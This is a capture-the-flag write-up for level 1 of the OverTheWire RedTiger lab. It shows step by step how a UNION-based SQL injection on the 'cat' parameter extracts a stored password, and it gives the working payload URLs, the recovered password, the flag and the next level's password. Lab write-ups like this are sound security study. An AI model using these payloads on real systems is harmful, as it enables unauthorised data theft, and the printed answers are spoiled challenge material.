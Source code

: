 ## Level 1

**URL:** https://redtiger.labs.overthewire.org/level1.php

**Target:** Get the login for the user Hornoxe

**Tablename:** level1_users

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502022328468.png" alt="image-20200502022328468" style="border:1px solid black;" />



Clicking on category 1 sent the value 1 to parameter "cat", and presented additional text. This might indicate a potential SQLi attack.

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502022636412.png" alt="image-20200502022636412" style="border:1px solid black;" />

<center> ?cat=1



I figured that the SQL query might look similar to this, where `[cat]` can be defined by me:

```sql
SELECT ?,?,... 
FROM ... 
WHERE cat=[cat] ... ;
```

I decided to use the `UNION` function to plot the requested password. For that to work, I wanted to bring the query to the following form:

```sql
SELECT ?,?,... 
FROM ... 
WHERE cat=1 
UNION 
SELECT password 
FROM level1_users; -- ...
```

I set `[cat]` to be `1 UNION SELECT password FROM level1_users; --` (adding "; -- " to make sure the rest of the query is ignored in case it exists).

The problem was I did not know how many columns the table has. I started adding columns to the selection until I reached the right number (4):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502023938850.png" alt="image-20200502023938850" style="border:1px solid black;" />

<center>?cat=1%20UNION%20SELECT%20password,2,3,4%20FROM%20level1_users;%20--



I could tell that columns 3 and 4 are presented to the user, so I made sure the column "password" is selected third:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502024312259.png" alt="image-20200502024312259" style="border:1px solid black;" />

<center> cat=1%20UNION%20SELECT%201,2,password,4%20FROM%20level1_users;%20



And there it was! I used the password (**thatwaseasy**) to receive the flag (**27cbddc803ecde822d87a7e8639f9315**) and the password for Level 2 (**passwords_will_change_over_time_let_us_do_a_shitty_rhyme**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502024653899.png" alt="image-20200502024653899" style="border:1px solid black;" />

